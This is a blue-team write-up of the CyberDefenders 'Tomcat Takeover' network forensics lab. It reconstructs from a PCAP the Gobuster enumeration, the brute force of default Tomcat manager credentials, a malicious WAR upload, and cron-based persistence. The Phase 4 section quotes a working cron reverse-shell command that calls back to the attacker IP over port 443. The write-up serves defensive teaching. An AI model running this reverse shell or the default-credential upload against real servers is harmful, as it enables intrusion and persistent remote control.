







# Tomcat Takeover - CyberDefenders Lab Writeup

**Platform:** CyberDefenders  
**Category:** Network Forensics  
**Tools Used:** Wireshark, ipgeolocation.io  
**Difficulty:** Blue Team / SOC Analysis  

---

## Overview

This lab involved analyzing a PCAP file capturing a full web server compromise. The attacker targeted an Apache Tomcat 7.0.88 server, moving through a complete attack chain from reconnaissance to persistence. Using Wireshark, I reconstructed every phase of the attack without any guided walkthrough, relying on foundational knowledge of networking, file systems, and traffic patterns to drive every decision.

---

## Attack Chain Summary

| Phase | Technique | Evidence |
|---|---|---|
| Reconnaissance | Directory enumeration via Gobuster | Rapid GET requests, 404 responses |
| Initial Access | Brute force of Tomcat manager credentials | http.authbasic filter, decoded credentials |
| Execution | Malicious WAR file upload | POST to /manager/html/upload |
| Persistence | Cron job reverse shell | TCP stream showing crontab commands |

---

## Phase 1 - Reconnaissance

**Filter used:** `http.request.method=="GET" ||frame contains "404 Not Found"`

When I opened the PCAP my first instinct was simple. In any network capture there are two points, a source and a destination. My job is to figure out who those two points are and what they are saying to each other. An external IP talking to an internal server is always worth investigating first.

I filtered for GET requests alongside 404 responses to see the reconnaissance phase. What came back immediately flagged as wrong. The external IP **14.0.0.120** was firing requests at the victim server **10.0.0.112** milliseconds apart, hammering path after path and getting 404 Not Found responses every time.

This is where my file system knowledge came into play. I know how directory structures work. Normal users browsing a web application land on surface level pages like `/login`, `/home`, or `/about`. They have no reason and no way to end up buried inside paths like `/examples/servlet/org.apache.catalina.INVOKER` or `/host-manager`. Those paths sit deep inside the server's internal architecture. A real user does not know those exist and would never navigate there through a browser. The moment I saw an external IP hitting paths that deep, I knew this was not a person clicking around. This was a tool systematically knocking on every door to see which ones would open.

To confirm the tool, I followed one of the early TCP streams and found exactly what I suspected. The User-Agent header read **gobuster/3.6**. Real browsers identify themselves as Chrome or Firefox. Seeing a raw tool name in the User-Agent is an immediate red flag because no legitimate user installs Gobuster on their machine to browse a website. Gobuster is a directory brute forcing tool built specifically for this kind of automated path discovery.

The Linux operating system also showed up in that same header. Normal web traffic in a business environment comes from Windows or macOS. A Linux user agent on an external IP probing deep internal server paths, combined with the speed of the requests, confirmed this was an attacker operating from a command line environment, not a person using a browser.

The enumeration also revealed the server version in the HTTP response: **Apache Tomcat/7.0.88**. The attacker now knew exactly what software they were dealing with and what known vulnerabilities it carried.




---

## Phase 2 - Brute Force Authentication

**Filter used:** `http.authbasic`

Once the attacker found the Tomcat manager panel at `/manager/html` through enumeration, they moved to the next phase. The `http.authbasic` filter isolated all basic authentication attempts in the PCAP, showing repeated GET requests from **14.0.0.120** to the manager page in rapid succession. That pattern is a brute force. No human logs in that many times that fast.

Rather than reading through every TCP stream manually to find the credentials, I used Wireshark's Basic Credentials tab which automatically decodes Base64 encoded auth headers and surfaces them in plain text. Basic auth does not encrypt credentials. It just encodes them in Base64, which is trivially reversible. Once I identified the packet where the brute force succeeded, the credentials were right there.

The successful login credential:

**admin:tomcat**

Default credentials on a public-facing Tomcat manager panel. Never changed. That single failure in configuration opened the door to everything that followed.



---

## Phase 3 - WAR File Upload and Initial Access

**Filter used:** `http.request.method=="POST"`

My approach here was straightforward. GET requests show you someone looking around. POST requests show you someone doing damage. I filtered for POST requests and got a single result: packet 20616, a POST from **14.0.0.120** to **10.0.0.112** at port 8080.

Port 8080 is the default Apache Tomcat port. Seeing an external IP sending a POST to port 8080 on the manager upload path was the clearest signal yet that something serious had happened.

I followed the TCP stream on that packet and found the full attack payload. A few things jumped out immediately:

The User-Agent still showed Linux. At this point in the investigation I had already established that this external IP was operating from a Linux machine. Seeing it again on the POST confirmed this was the same attacker, same session.

The path was `/manager/html/upload`. I applied the same file path logic I used in phase one. Admin upload paths are not something a normal user touches. There is no legitimate reason for an external IP to be posting data to an internal Tomcat upload endpoint unless they have credentials and malicious intent. Both of those were confirmed.

The Authorization header contained `YWRtaW46dG9tY2F0`. Base64 decoded that is `admin:tomcat`, the same credentials recovered in the brute force phase. This was the authenticated upload.

The filename was **JXQOZY.war**. WAR stands for Web Application Archive. Tomcat is designed to automatically unpack WAR files and execute them as web applications. A malicious WAR file is essentially a backdoor packaged in a format the server is built to trust and run. The random filename JXQOZY is another flag. Real application deployments have recognizable names.

The server responded **HTTP/1.1 200 OK**. The payload was accepted and executed.

To attribute the attack geographically I looked up the attacker IP on ipgeolocation.io. The address **14.0.0.120** traced to **Guangzhou, Guangdong, China** on the **CHINANET** ISP.





---

## Phase 4 - Persistence via Cron Job

With code execution established through the WAR file, the attacker had a reverse shell on the server. The next TCP stream showed exactly what they did with it.

My reasoning for following the stream here was the same logic I applied throughout the whole lab. There are two points in every connection. I knew the attacker's IP. I isolated the traffic between those two endpoints and followed the conversation. That is all it takes to see what happened.

The stream showed the following commands running on the compromised server:

```
whoami
root

cd /tmp
pwd
/tmp

echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'" > cron
crontab -i cron
crontab -l
* * * * * /bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'
```

Breaking this down:

**whoami returning root** confirmed the attacker had full administrative control of the machine. Not a limited user account, root.

**cd /tmp** is a move I recognized immediately. The /tmp directory is writable by all users and less monitored than other parts of the file system. Attackers stage activity there because detection is less likely. File system knowledge made that flag immediate.

**The cron job** is the persistence mechanism. The five stars at the start of the command mean every minute, every hour, every day. Every 60 seconds the compromised server automatically reaches out to **14.0.0.120** on **port 443** and re-establishes a reverse shell. Even if someone kills the shell manually, it comes back a minute later automatically.

Port 443 is the standard HTTPS port. The attacker chose it intentionally because most firewalls allow outbound 443 by default and the traffic blends in with normal encrypted web traffic.

**crontab -l** at the end confirmed the job was installed and running.



---

## Key Takeaways

**The two points logic works every time.** Every network connection has a source and a destination. When one of those points is an external IP doing things an external IP should never do, that is your lead. Isolate it, follow the conversation, and the attack chain reveals itself. I used this approach at every phase of this lab.

**File path knowledge is a real detection skill.** You do not need to memorize every server's directory structure to catch malicious enumeration. Knowing that normal users stay on surface level pages while paths like `/examples/servlet/org.apache.catalina` belong to internal server processes is enough. When an external IP is hitting paths that deep at machine speed, it is not a person. That instinct transfers to every web server investigation you will ever run.

**Linux user agents on external IPs are a red flag.** Real business users browse from Windows or macOS. When an external IP shows up with a Linux command line environment in the user agent, combined with rapid automated requests, you are looking at an attacker not a person.

**Default credentials kill.** The entire attack pivoted on `admin:tomcat` never being changed. Tomcat ships with these defaults and they are the first thing any attacker tries. One configuration change would have stopped this intrusion before it started.

**Follow the POST.** GET requests show reconnaissance. POST requests show the attack. One POST in this entire PCAP told the full exploitation story.

**Port 443 is not automatically safe.** Attackers route reverse shells through HTTPS ports specifically because organizations allow outbound 443 without deep inspection. Encrypted traffic going to unknown external IPs is worth flagging regardless of port.

---

## Tools and Filters Reference

| Filter | Purpose |
|---|---|
| `http.request.method=="GET" \|\|frame contains "404 Not Found"` | Identify enumeration activity |
| `http.authbasic` | Isolate brute force authentication attempts |
| `http.request.method=="POST"` | Find upload and form submission activity |
| `ip.addr == x.x.x.x` | Isolate traffic from a specific IP |
| Follow TCP Stream | Reconstruct full attacker conversations |
| Basic Credentials tab | Decode Base64 auth headers |
